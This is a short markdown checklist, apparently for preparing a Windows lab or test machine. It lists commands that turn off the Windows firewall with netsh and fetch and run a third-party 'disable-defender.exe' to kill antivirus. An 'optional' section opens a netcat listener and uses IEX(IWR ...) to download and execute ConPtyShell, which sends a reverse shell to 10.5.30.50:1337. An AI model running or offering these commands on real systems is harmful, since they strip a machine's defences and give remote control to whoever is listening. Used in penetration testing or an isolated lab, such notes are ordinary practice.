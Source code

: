 # download sysinternals, run edge + notepad

# set uac
```
set uac to default
```

# disable firewall
```
netsh advfirewall set allprofiles state off
```

# disable antivirus
```
login as Administrator, and disable all antivirus in settings and then
cd Desktop
wget https://github.com/pgkt04/defender-control/releases/download/v1.5/disable-defender.exe -o uwu.exe
.\uwu.exe
```

# optional raw colorful shell
```bash
stty raw -echo; (stty size; cat) | nc -lvnp 1337
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.5.30.50 1337
```